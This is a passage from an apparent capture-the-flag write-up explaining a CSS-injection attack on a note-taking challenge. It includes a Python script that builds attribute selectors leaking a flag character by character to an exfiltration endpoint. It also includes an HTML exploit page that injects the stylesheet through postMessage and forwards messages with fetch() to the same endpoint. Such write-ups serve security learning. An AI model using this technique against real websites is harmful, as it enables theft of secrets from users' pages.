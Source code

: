 This can be extended to bruteforce all possible characters in each position of the flag, with each character having a background URL corresponding to the guessed flag.

To generate the CSS I used the following script.

```python
import string
import urllib.parse

ENDPOINT = "https://EXFIL.x.pipedream.net/"
CURR_FLAG = "nite{n0w_we_kn0w_h0w_10_h4ck_g00gl6_w1th_c5"
CHARSET = string.ascii_letters + string.digits + "_-{}"

css = ""

for char in CHARSET:
    css += f"""
textarea[data-last^='{CURR_FLAG + char}'] {{
    background: url("{ENDPOINT}?data={urllib.parse.quote_plus(CURR_FLAG + char)}");
}}
    """

with open("exploit.css", "w") as f:
    f.write(css)

```

Our exploit page will simply load the challenge page as an `iframe`, wait for the API to be loaded, then send a `postMessage` linking the CSS we created above to the target page. This is added to a GitHub repository together with the CSS, and deployed to GitHub pages under a `.jsapi.tech` subdomain.

```markup
<html>
    <iframe src="https://chall1.jsapi.tech?enableapi=true&recv=https://zeyu.jsapi.tech"></iframe>
    <script>
        const frame = document.querySelector('iframe');

        window.addEventListener('message', (event) => {
            fetch("https://EXFIL.x.pipedream.net?" + event.data);

            if (event.data.includes("NOTE_APP_API_LOADED")) {
                frame.contentWindow.postMessage(
                    `NOTE_APP_SET_REQUEST asdf<link rel="stylesheet" href="https://zeyu.jsapi.tech/exploit.css?t=${Math.random()}"></link>`,
                    "*"
                );
            }
        });
    </script>
</html>
```

Exfiltrating each character is slightly annoying, as it involves redeploying our exploit GitHub page with the updated CSS.
